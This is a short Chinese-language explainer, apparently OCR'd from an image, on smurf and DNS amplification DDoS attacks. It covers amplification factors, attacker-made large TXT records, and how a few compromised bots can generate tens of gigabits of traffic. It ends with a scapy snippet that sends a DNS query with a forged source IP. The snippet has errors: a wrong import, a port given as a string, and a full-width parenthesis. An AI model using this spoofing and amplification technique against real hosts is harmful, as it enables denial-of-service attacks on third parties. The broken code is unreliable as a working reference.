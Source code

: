 DNS放大攻击
=====
smurf攻击是对一个子网的广播地址发起一个伪造IP源的ICMP包，这样这个子网的所有机器都会icmp-reply到这个伪造的IP地址上。造成只需要少量的肉鸡就能引起很大的攻击流量。而DNS放大攻击是伪造一个DNS查询的报文，源地址改成想要攻击的IP。单个查询的包64字节，如果是ANY类型查询(或者DNSSEC记录)，那么回复报文一般会大几十倍。当然，如果攻击者自己制造一个很大的TXT记录，那么可能返回的更大的报文，攻击的强度就会更大。这样2M带宽的肉鸡，能制造的攻击流量就能到几百兆了，几十个G攻击流量很容易制造。


    from scapy import *
    
    a = IP(dst='10.32.8.11',src='10.32.132.85') #10.32.132.85即为伪造的源ip
    b = UDP(dport='53')
    c = DNS(id=1,qr=0,opcode=0,tc=0,rd=1,qdcount=1,ancount=0,nscount=0,arcount=0）
    c.qd=DNSQR(qname='www.qq.com',qtype=1,qclass=1)
    p = a/b/c
    send(p)